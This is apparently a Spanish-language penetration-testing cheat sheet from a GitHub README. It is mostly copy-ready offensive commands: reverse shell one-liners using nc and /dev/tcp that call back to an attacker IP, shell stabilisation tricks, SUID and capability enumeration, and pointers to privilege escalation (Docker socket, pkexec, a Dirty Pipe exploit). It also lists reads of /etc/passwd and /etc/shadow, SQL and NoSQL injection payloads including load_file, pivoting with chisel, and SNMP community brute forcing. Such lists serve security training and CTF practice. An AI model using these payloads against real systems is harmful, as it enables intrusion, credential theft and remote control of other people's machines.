 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands

### FIND
* Listar los permisos SUID, debe estar en la carpeta raiz del SO: ``` find  \-perm -4000 2>/dev/null ```

### Sistema Operativo
* Conocer la IP de la máquina ``` hostname -I ```
* Permite ver los puertos abiertos de la máquina ``` netstat -nat ```
* Permite ver los procesos corriendo en la máquina ``` ps -faux ```
* Permite ver los archivos que tienen procesos abiertos ``` lsof -i:<PORT> ```
* Permite ver la descripción del sistema operativo ``` lsb_release -a ```
* Permite ver la versión del kernel ``` uname -a ```
* Permite ajustar el número de filas y columnas de la tty ``` stty rows <ROW_NUMBER> columns <COLUMN_NUMBER> ```
* Permite convertir hexadecimal a texto ```echo "<HEX>" | xargs | xxd -ps -r ```
* En el caso de no tener una bash interactiva se puede realizar el siguiente proceso 
``` script /dev/null -c bash``` o ``` python3 -c 'import pty;pty.spawn("/bin/bash")' ``` luego se debe hacer un **CTRL_Z**
ingresamos ``` stty raw -echo; fg ``` y por último ingresas ``` reset xterm ``` y consigues una shell interactiva en la máquina.
* Buscar las capabilities ``` getcap -r / 2>/dev/null ```

### Python
* Crear un servidor de python en mi máquina local ``` python3 -m http.server <PORT> ```

### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

* ``` nc -e /bin/bash <MY_IP> <PORT> ```
* ``` bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1 ```
* ``` bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1" ```


## Privilege Escalation

### Docker Escape
* [Docker Socket Escape](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounted-docker-socket-escape)

### Pkexec
Se comprueba si existe pkexec instalado y si tiene permisos SUID
> which pkexec | xargs ls -l

### Dirty Pipe
Se debe tener GCC instalado en la máquina a atacar
* [Dirty Pipe](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)



## Information Disclose
Archivos PHP con posible información sensible

### Linux
Usuarios y passwords
```
/etc/passwd
/etc/shadow
```
Puertos abiertos
```
/proc/net/tcp
```
Conocer segmento de red de la máquina
```
/proc/net/fib_trie
```

### PHP
```
/cgi-bin/phpinfo.php
/info.php
```


## SQL Injection

### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -

### Cargar archivos
> ' union select 1,2,load_file("/etc/passwd")


## NoSQL Injection
> admin'||''==='


## Tools

### Kubernetes
#### Kubeletctl
* ``` kubeletctl exec -s <SERVER_IP>  -p <POD_NAME> -c <CONTAINER_NAME> -i "bash" ```

### Chisel
Chisel se usa para realizar acciones como **LOCAL o REMOTE PORT-FORWARD**

Dejar abierta una conexión como Server
```
./chisel server --reverse -p <PORT>
```
Abrir una conexión como Client al Server, para este caso asiendo **Remote Port-Forward**
```
./chisel client <CHISEL_SERVER_IP>:<CHISEL_SERVER_PORT> R:<LOCAL_PORT>:<LOCAL_IP>:<LOCAL_PORT>
```

### SNMP
#### Onesixtyone
Onesixtyone permite hacer fuerza bruta para conocer las community en un servicio snmp
```
onesixtyone <REMOTE_IP> -c <DICTIONARY_PATH>
```
### Snmpwalk
```
snmpwalk -c <COMMUNITY> -v<SNMP_VERSION> <REMOTE_IP> <SEARCH_PATH>
```
Ejemplo, consideremos que el caracter **|** indica que podemos utilizar una de esas
```
snmpwalk -c public|private|etc -v1|2c|3 1.1.1.1 1|2
```